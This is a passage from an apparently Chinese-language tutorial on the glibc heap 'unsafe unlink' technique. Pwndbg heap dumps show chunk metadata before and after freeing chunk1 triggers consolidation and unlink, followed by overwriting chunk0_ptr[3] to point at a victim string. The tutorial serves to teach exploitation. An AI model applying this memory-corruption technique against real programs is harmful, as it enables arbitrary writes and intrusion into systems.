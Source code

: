```
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603120 PREV_INUSE {
  prev_size = 0,
  size = 134881,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

好了,万事具备,只欠东风:)

free chunk1,这时就会发生unlink(为什么请看文章开头unlink时机

这里就是触发了free的后向合并从而调用unlink函数,此时的堆结构

```
pwndbg&gt; heap
0x603000 PREV_INUSE {
  prev_size = 0,
  size = 145,
  fd = 0x0,
  bk = 0x20ff1,
  fd_nextsize = 0x602058,
  bk_nextsize = 0x602060 &lt;stderr@@GLIBC_2.2.5&gt;
}
0x603090 {
  prev_size = 128,
  size = 144,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
0x603120 PREV_INUSE {
  prev_size = 0,
  size = 134881,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

我们现在给chunk0_ptr[3]赋值,将chunk0_ptr[3]指向victim_string的内存

```
pwndbg&gt; p/x &amp;victim_string
$40 = 0x7fffffffe640
pwndbg&gt; p/x chunk0_ptr
$31 = 0x7fffffffe640
pwndbg&gt; p/x chunk0_ptr[3]
$37 = 0x7ffff7a2d830
```
